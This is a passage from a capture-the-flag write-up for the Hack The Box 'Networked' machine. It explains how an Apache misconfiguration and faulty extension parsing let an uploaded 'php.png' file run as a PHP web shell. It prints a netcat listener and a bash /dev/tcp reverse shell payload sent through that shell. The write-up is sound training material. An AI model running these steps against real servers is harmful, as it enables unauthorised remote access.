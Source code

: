 ![id-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Networked/img/id-16.png)


What? why? 


In short, the issue is not with the application itself, but rather a misconfiguration in the Apache server which instructs it to render any file that has the string `php` in it's name as a valid php file regardless of the location of the string. So `10_10_14_101.php.png` get's interpreted as a php file by the misconfigured Apache even though it actully ends with `png` and therefore should be rendered as such.  


The issue with the application is the mistreatment of the input filename's extension. Instead of finding the last occurence of the `.` character in the filename and treating everything after it as the true extension, it find the first occurence of the `.` character and treats the rest of the filename as the extension. Therefore filenames like `empty.php.png` get saved as `10_10_14_14.php.png` which enables the Apache vulnerability. 



From here we can setup a local listener with:

```bash
rlwrap nc -lnvp 9001
```


Then url-encode the following reverse shell payload `bash -i >& /dev/tcp/10.10.14.101/9001 0>&1` and send it in a request like this: `http://networked.htb/uploads/10_10_14_101.php.png?cmd=<payload>` and get a shell:


![shell-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Networked/img/shell-17.png)
